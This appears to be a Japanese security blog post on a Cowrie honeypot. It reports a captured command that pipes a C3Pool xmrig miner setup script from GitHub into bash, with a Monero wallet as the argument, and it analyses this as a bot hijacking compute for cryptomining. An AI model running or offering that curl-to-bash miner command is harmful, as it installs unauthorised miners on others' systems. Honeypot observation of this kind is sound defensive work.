 ```yaml
---
layout: post
title:  "cowrieでマイニング環境を構築するスクリプトを観測した"
date:   2022-08-16 22:14:54
categories: Security
tags: honeypot
---
```


* content
{:toc}


## cowrie

cowrieでは，wgetやcurl，SFTP/SCPでダウンロードしたファイルやそのスクリプトを/downloadsに格納します．

## 実際に保存されたファイル

/downloadsにあるファイルをcatしてみました．

```bash
curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | 
bash -s 95文字の英数字(大文字小文字含む)
```

<br><br>

curlの内容は，[C3Pool/xmrig-C3](https://github.com/C3Pool/xmrig-C3)を指し，パイプ先の`(95文字の英数字(大文字小文字含む))`は，先ほどのリポジトリのDonationsセクションにある`XMR`と書式と文字数が一致していました。

xmrigは，仮想通貨マイニングツールの一種のようです([参照](https://blog.malwarebytes.com/threat-analysis/mac-threat-analysis/2018/05/new-mac-cryptominer-uses-xmrig/))．

XMRが仮想通貨の一種でその95文字の英数字は，取引先もしくは取引相手を指しているのでしょうか...?

おそらくどこかのbotがマイニング用の計算資源として乗っ取るために走らせたのでしょう．

## 所感

半日走らせただけで，物凄い数のtty/logやdownloadsファイルが保存されており，毎度のことながら驚いております．次は，人の手が入ったであろうtty/logを見つけて解析したいと思います．
